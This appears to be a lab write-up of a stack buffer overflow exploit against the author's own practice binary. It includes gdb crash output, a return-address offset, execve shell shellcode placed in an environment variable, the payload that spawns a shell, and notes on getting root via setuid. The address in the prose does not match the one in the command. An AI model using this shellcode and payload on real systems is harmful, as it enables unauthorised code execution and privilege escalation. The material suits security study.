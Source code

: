 ```python
   0x555555555371 <main(int, char**)>:	endbr64 
   0x555555555375 <main(int, char**)+4>:	push   rbp
   0x555555555376 <main(int, char**)+5>:	mov    rbp,rsp
   0x555555555379 <main(int, char**)+8>:	sub    rsp,0x20
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde48 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0008| 0x7fffffffde50 ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0016| 0x7fffffffde58 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0024| 0x7fffffffde60 ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0032| 0x7fffffffde68 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0040| 0x7fffffffde70 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0048| 0x7fffffffde78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
0056| 0x7fffffffde80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555555370 in auth () at /home/talantov/projects/appsec/exploit/stack_overflow.cpp:23
23	}
gdb-peda$ pattern_offset AAKAAgAA6AALA
AAKAAgAA6AALA found at offset: 88
```

```bash
$ export PWN=`python3 -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")'`

$ ./getenvvar PWN ./stack_overflow
PWN will be at 0x7fffffffe523
```

Offset 88 points to return address position. Address **0x7fffffffe53d** points to shellcode position.
```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\x23\xe5\xff\xff\xff\x7f\x00\x00' + b'\n')"; cat) | ./stack_overflow
Enter a password: 
id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
whoami
talantov
uname -a
Linux talantov-virtual-machine 6.2.0-33-generic #33~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Sep  7 10:33:52 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

## Get root
When bash executes it uses RUID as EUID (see diferences between EUID, RUID https://book.hacktricks.xyz/linux-hardening/privilege-escalation/euid-ruid-suid). If process is owned by root and has setuid flag, EUID will be set to root, but RUID will be corresponded to the user that executes the process. There is setuid syscall which sets both EUID and RUID to specified value (0 - means root). It could be used to change effective user to root before bash executing.
